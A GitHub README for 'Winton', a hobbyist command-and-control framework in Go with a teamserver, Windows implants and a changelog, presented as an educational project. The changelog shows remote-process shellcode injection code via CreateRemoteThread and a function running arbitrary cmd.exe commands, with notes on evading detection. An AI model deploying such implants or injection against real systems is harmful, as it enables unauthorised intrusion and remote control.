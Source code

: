 ![Winton](https://i.imgur.com/Pmrv5t7.png)

<div align="center">
<h1>Winton</h1>

<i>Yet another Command and Control (C2) framework written in Go</i>
</div>

I wrote this to learn more about C2 internals, OPSEC considerations in beacon and to learn Golang _(i still can't get function imports to work)_.

> 🐒 Winton was designed solely for educational purposes, and is still in early stages of development and may be unstable. 

## Features
### Teamserver
> Written in Golang 1.21.1 (tested on Windows/AMD64)
- Support for multiple listeners, but only HTTP is implemented
- Multiple agents & asynchronous callbacks
- Todo: HTTPS listener, authentication & internal API for operator interaction 

### Implant
> Written in Golang 1.21.1 (tested on Windows/AMD64) 
- Built-ins are implemented via the Golang standard library, may spawn cmd.exe
- Supported commands: `ls`, `whoami`, `pwd`, `shell`, `ps`, `getpid`, `inject`
- Process Injection via `CreateRemoteThread`
  
![WintonC2](https://i.gyazo.com/e10bcbdd23217af2032ba1de39639ed5.png)

### Client
> Written in Python 3.9+ 
- Communicates directly with the `teamserver`

## Compilation
The `teamserver` compiles to a single golang binary:
```bash
cd ./teamserver && make 
cd ./bin && ./teamserver <ip> <port> <password>
```

The Go agent `Wonton` is compiled to a single golang binary:
```bash
cd './implan/Wonton (GO)\' && make
cd ./bin && ./winton-win64.exe
```

The C agent `Wanton` has a MSVC solution file, compile the solution in `Release` mode (not really maintained, probably broken):
```bash
gcc -Wall -std=c99 -o Wanton.exe Commands.c Main.c Utils.c -lcurl
```
_A Makefile is not provided because I am lazy_

## Change Log

#### 24/11/2023 - Shellcode Injection via CreateRemoteThread (Session Passing)
- 2 new commands: `ps` and `inject`
    - `ps` lists all running processes on the target as well as their PID, PPID, Name, Arch, Session & User.
        - `Usage: ps`
![24/11/2023](https://i.imgur.com/GAYSs0m.png)
    - `inject` injects shellcode into a running process via `CreateRemoteThread`
![24/11/2023](https://i.imgur.com/H7OD72D.png)
        - `Usage: inject <pid> <path_to_binfile>`
        - `Example: inject 17952 ../shellcode/calc/calc.bin`
        - The shellcode is loaded from a file, and is base64 encoded before being sent to the target.
        - The shellcode is then decoded and injected into the target process via `CreateRemoteThread`
        ```go
        var kernel32 = windows.NewLazySystemDLL("kernel32.dll")

        var (
            virtualAllocEx      = kernel32.NewProc("VirtualAllocEx")
            writeProcessMemory  = kernel32.NewProc("WriteProcessMemory")
            createRemoteThread  = kernel32.NewProc("CreateRemoteThread")
            WaitForSingleObject = kernel32.NewProc("WaitForSingleObject")
            closeHandle         = kernel32.NewProc("CloseHandle")
        )
        ...
        process_handle, err := windows.OpenProcess(..., uint32(pid), ...)
        ...
        addr, _, err := virtualAllocEx.Call(..., uintptr(len(shellcode)), ..., windows.PAGE_EXECUTE_READWRITE) // BAD
        ...
        _, _, err := writeProcessMemory.Call(..., addr, (uintptr)(unsafe.Pointer(&shellcode[0])), uintptr(len(shellcode)))
        ...
        thread_handle, _, err := createRemoteThread.Call(uintptr(process_handle), 0,  0, addr, 0, 0, 0)

        closeHandle.Call(uintptr(thread_handle))
        closeHandle.Call(uintptr(process_handle))
        ```
    - OPSEC considerations (why this is a budget injection):
        - `VirtualAllocEx` is called with PAGE_EXECUTE_READWRITE
        - Unbacked memory allocation 
        - Thread start address is 0x0 

- `./shellcode/calc/calc.bin` is x64 shellcode that spawns calc.exe ~ [_thanks boku7_](https://github.com/boku7/x64win-DynamicNoNull-WinExec-PopCalc-Shellcode/blob/main/win-x64-DynamicKernelWinExecCalc.asm)
- `./shellcode/beacon/winton-win64.bin` is x64 shellcode that spawns a new beacon ~ [_thanks donut_](https://github.com/TheWover/donut) -
    - generated using [exe2_csh](https://github.com/gatariee/exe2c_sh) 
    - `./exe2sh.py -i winton-win64.exe -o ./shellcode/beacon/winton-win64.bin`

#### 15/11/2023 - Mass codebase refactoring & implementation of shell commands 
- The codebase has been refactored to be more modular and easier to read, (teamserver & go implant)
    - Doesn't exactly follow Go best practices, but it's certainly better than before. 
- The `teamserver` and `implant (go)` now have Makefiles and support for cross-compilation, see [here](./implant/Wonton%20(GO)/Makefile) and [here](./teamserver/Makefile) for more info.
- Added support for `shell` commands in beacon
    - Spawns `cmd.exe /c {task}`, not opsec safe.
```go
func shell(command string) (string, error) {
cmd := exec.Command("cmd.exe", "/c", command)
stdout, err := cmd.Output()
if err != nil {
    return "", err
}
return string(stdout), nil
}
```
![15/11/2023](https://i.imgur.com/JVeojRf.png)

#### 12/11/2023 - Wanton has a better (and much bigger) brother implant! (Wonton)
- The [new implant](./implant/Wonton%20(GO)/) is written in Go.
- Although this was much more convenient to write, Golang binaries have the downside being much larger than C binaries.
    - The C implant is 75KB, the Go implant is 7,165KB.
- The Go implant is also much more stable than the C implant, and has more features.
    - The C implant will be removed in the future.
- Currently has support for 2 commands: `whoami` and `ls`
![12/11/2023](https://i.imgur.com/ZkIaKIw.png)
![12/11/2023](https://i.imgur.com/lcZvWN7.png)

#### 10/11/2023 - Winton now has an agent for Windows! (Wanton)
- The agent is written in C and is extremely unstable! :D, and barely functional.
    - This implant will probably be abandoned cos I hate parsing JSON in C, but this was a nice WinAPI sanity check.
- Currently only has support for `pwd`, but more commands will be added eventually.
    ![10/11/2023](https://i.imgur.com/D2nVffY.png)
#### 9/11/2023 - Beacons can now go offline!
- If the callback from the last beacon is over `Agent.Sleep + 5` seconds, the beacon will be marked as down (_but should still listening for callbacks_).
   - In its current state, the agent gets completely removed from the `AgentList[]` and `AgentCallbacks[]` if it goes offline, this will be changed in the future to allow for offline agents to still be in the list.
    ![9/11/2023](https://i.imgur.com/CZm1eGe.png)
- The change of beacon state is also reflected in the `AgentList[]` and `AgentCallbacks[]` tables
    ![9/11/2023](https://i.imgur.com/p87EHej.png)
